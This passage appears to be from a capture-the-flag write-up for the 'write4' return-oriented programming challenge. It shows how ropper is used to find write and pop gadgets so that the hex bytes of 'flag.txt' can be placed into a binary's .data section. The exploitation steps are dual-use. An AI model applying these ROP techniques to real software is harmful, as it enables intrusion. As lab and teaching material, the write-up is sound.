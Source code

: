 ```bash
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
25  0x00001038   0x29 0x00000000   0x29 ---- .comment
26  0x00001068  0x618 0x00000000  0x618 ---- .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- .shstrtab
```

"flag.txt" written as a Python byte array is `b'\x66\x6c\x61\x67\x2e\x74\x78\x74'`.

```bash
$ python
Python 3.8.5 (default, Jul 28 2020, 12:59:40) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> a = "flag.txt"
>>> a.encode(encoding='utf-8').hex()
'666c61672e747874'
```

Now we know that we need to write the bytes `0x66 0x6c 0x61 0x67 0x2e 0x74 0x78 0x74` ("flag.txt" written in hex) at memory location `0x00601028`. Alright, so how do we actually accomplish this? The first step would be to search for some code in the binary that is in the form `mov [%], %; ret`. If we could find code that does this, then we could write the hex bytes for "flag.txt" at memory location `0x00601028` by modifying the registers accordingly and jumping to that line of code.

We can find a line of code in this form by using a tool called ropper. Ropper allows us to easily find ROP gadgets in binaries that we can use.
```bash
$ ropper --file write4 --search "mov [%], %; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [%], %; ret

[INFO] File: write4
0x00000000004005e2: mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret; 
0x0000000000400606: mov dword ptr [rbp + 0x48], edx; mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret; 
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
0x0000000000400628: mov qword ptr [r14], r15; ret;
```

The `mov qword ptr [r14], r15; ret` at line `0x0000000000400628` seems perfect for us! Now, we just need to find a way to modify the registers so that `r14` is equal to `0x00601028` and `r15` is equal to `0x666c61672e747874`. We could do this by searching for a `pop r14` instruction and a `pop r15` instruction.

```bash
$ ropper --file write4 --search "pop r14%; ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r14%; ret

[INFO] File: write4
0x0000000000400690: pop r14; pop r15; ret;
```
